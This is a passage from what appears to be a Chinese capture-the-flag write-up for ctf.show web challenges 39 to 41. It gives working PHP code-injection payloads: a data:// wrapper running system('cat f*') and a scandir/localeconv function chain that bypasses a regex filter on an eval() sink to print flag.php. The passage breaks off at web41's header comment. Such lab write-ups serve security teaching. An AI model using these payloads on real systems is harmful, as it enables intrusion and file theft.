 ?c=php://filter/read=convert.base64-encode/resource=fl*(姿势不对)  

还是用data  
?>.php不影响前面已经闭合的php语句

payload:
```
?c=data://text/plain,<?php system("cat f*");?>
```
---
## web40

```bash
<?php
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
}
```
过滤的是中文括号，用到以下包含英文括号的函数：
```
localeconv()：返回一包含本地数字及货币格式信息的数组。其中数组中的第一个为点号(.)

pos()：返回数组中当前元素的值

scandir()：获取目录下的文件

array_reverse()：将数组逆序排列

next()：函数将内部指针指向下一元素，并输出
```
payload:
先查看目录下的文件名：
```
 ?c=print_r(scandir(pos(localeconv())));
```

![](https://img-blog.csdnimg.cn/20210213210611388.png#pic_center)
接着用array_reverse()和next()，使指针指向flag.php，并用highlight_file()输出，得到flag。
```
?c=highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```
highlight_file或show_source

## web 41

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 羽
# @Date:   2020-09-05 20:31:22
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:40:07
# @email: 1341963450@qq.com
# @link: https://ctf.show

*/
```